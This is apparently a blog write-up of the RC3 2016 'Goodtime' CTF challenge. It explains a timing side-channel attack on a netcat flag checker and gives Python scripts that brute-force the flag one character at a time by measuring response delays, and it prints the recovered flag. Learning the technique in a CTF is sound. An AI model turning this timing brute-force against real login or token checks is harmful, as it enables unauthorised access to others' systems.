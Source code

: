 ```yaml
---
layout: post
title:  "RC3 2016 ~ Goodtime: Misc 150"
author: Vivi
date:   2016-11-20 04:29:33 -0700
categories: CTF Misc All
tags: RC3 Programming
---	
```


This is a challenge from RC3 2016. RC3 generally hosts a CTF every year and have been one of my favorite CTFs simply because it's a lot easier than the DefCon qualifying CTFs. This challenge in particular was extremely long for a measly 150 points. It's not very hard - just really annoying and inconsistent.


**Challenge Details**
------------------

```
Goodtime - 150
--------------
The flag is not on the youtube video, the flag on there is someone trying to confuse you. Sorry.
The flag is also longer than normal.
https://www.youtube.com/watch?v=H7HmzwI67ec
nc goodtime.ctf.rc3.club 5866
NOTE: there should be a prompt when you connect. if there isn't it went down so scream at me in IRC until I fix.

author: wumb0
```

Like any person would - the first I did was viewed the youtube video:

<iframe width="560" height="315" src="https://www.youtube.com/embed/H7HmzwI67ec" frameborder="0" allowfullscreen></iframe>

Obviously no clues here - it's just a video of Carly Rae Jepson. I did however get a good laugh when some guy posted a fake flag in the comments. Next thing to do was check out the netcat connection.

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93602.js" id="asciicast-93602" async ></script>
   <figcaption> nc goodtime.ctf.rc3.club 5866</figcaption>
</figure>

After trying out the netcat server, when we input a flag that has the correct format it takes longer to respond. Since the title of this challenge is called goodtime - I'm going to assume the exploit is a timing attack. I would assume the server checks the input one character at a time. Thus an input of **Apple** have a shorter response time than **RC** simply because the server would check the "A" in "Apple" and stop - while the server would check **R**, then **C** then look for a **3** (RC3) in **RC**. Let's validate this by creating a script and testing it out.

[manualTime.py]({{site.github.url}}/assets/rc3/goodtime/manualTime.py)


```python
#!/usr/bin/env python
import time
import socket
import re
import sys

timer = time.clock if sys.platform == 'win32' else time.time

#host to connect to
host="54.167.134.245"
#the port with whatever u want 
port = 5866
#creating a socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#default values
flag = ""
highestTime = 0
attempt= "RC3-2016-"
allowedChars = "klmnopqrstuvwxyz-ABCDEFGHIJKLMNOPQRSTUVWXYZ"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#start timer
start = timer()
#start connecction
s.connect((host, port))
#Recover 2014 bytes of response and print
data2 = s.recv(1024)
print data2
print "Attempting: " + attempt
#Send out flag
s.send(attempt + '\n')
#Read response
data2 = s.recv(1024)
#end timer
print timer()-start
```

This script pretty much creates a socket and connects to the netcat server via the host and port provided. I then connect to the server using that socket and read any incoming bytes. We then send our attempt for the flag. We then wait for a response and print out the time. This kind of socket scripting is useful when the server response is consistant. Here's what it looks like in usage.

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93604.js" id="asciicast-93604" async ></script>
   <figcaption>manualTime.py</figcaption>
</figure>

Since now we know it's a timing attack and the flag format is "RC3-2016-XXXXX", we only need to guess the last line of the flag. The way to go about doing is to test every single character - like a brute-force attack.

> RC3-2016-a

> RC3-2016-b

> RC3-2016-c

> RC3-2016-d

> RC3-2016-e

> RC3-2016-f

Assuming we hit the right character - that response would be be quite larger than the other inputs. Thus we can just save the character with the longest response time and assume that's the next character in the flag. I automated this process in 

[goodtime.py]({{site.github.url}}/assets/rc3/goodtime/goodtime.py)


```python
#!/usr/bin/env python
import time
import socket
import re
import sys

timer = time.clock if sys.platform == 'win32' else time.time

host="54.167.134.245"
#the port with whatever u want 
port = 5866
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#default values
flag = "";
highestTime = 0;
attempt= ""
allowedChars = "abcdegfhijklmnopqrstuvwxyz-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()"

for x in range(0,50):
	# Resets highestChar
	highestChar=""
	for x in allowedChars:
		#Creates attempt 1
		attempt = flag + x
		#Create socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		#Start timer
		start = timer()
		#Connect to netcat
		s.connect((host, port))
		#Recover response
		data2 = s.recv(1024)
		print data2
		#Send flag
		print "Attempting: " + attempt
		s.send(attempt + '\n')
		#keep this to get the actual response
		data2 = s.recv(1024)
		#End timer
		time1 = timer()-start
		print "Time 1: " + str(time1)
		# print 'time taken ', timer()-start ,' seconds'
		if (timer()-start > highestTime):
			highestTime = timer()-start
			highestChar = x
		s.close()
		#attempt 2
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		start = timer()
		s.connect((host, port))
		data2 = s.recv(1024)
		s.send(attempt + '\n')
		#keep this to get the actual response
		data2 = s.recv(1024)
		time2 = timer()-start
		print "Time 2: " + str(time2)
		# print 'time taken ', timer()-start ,' seconds'
		average = (time1+time2)/2
		print "Average: " + str(average)
		if (average > highestTime):
			highestTime = average
			highestChar = x
		s.close()
	print "Adding [" + highestChar + "] to flag"
	flag = flag + highestChar;
	print "Current Flag: " + flag
```

Let's check it out in use:

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93590.js" id="asciicast-93590" async ></script>
   <figcaption>manualTime.py</figcaption>
</figure>

Combining both the automation and the manual check we were able to get the flag. 

> RC3-2016-itz-alw4yz-a-g00d-t1m1ng-@tt@ck

Let's confirm

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93610.js" id="asciicast-93610" async ></script>
   <figcaption>manualTime.py</figcaption>
</figure>

The hardest part of this was a lot of the time the connection was inconsistent. Any new characters I recieved from my script I had to triple check manually. When I saw the words **itz-al**, I already knew it was a carly rae reference. I manually input every version of **always** like **alw4ys** and **alw@ys** - one character at a time. Whenever the response time went up - I knew that was the correct character. The most trickiest part was after **g00d-t1m**. I thought I was done because I assumed the flag was **itz always a good time.** I had to bruteforce the second **1** for **t1m1ng**. I had no clue why it was a 1. Not only that but the **@tt@ck** at the end threw me off because I initially assumed the flag would be alphanumeric. The last word took me atleast 3 hours because the server kept crashing and each flag I input had a response time of atleast 10 seconds. To brute force the **@** it required all lowercase, uppercase, numbers, and punctuations - 10 seconds a piece. About 10 minutes if I was lucky the server didn't crash. At last though I was able to get the flag.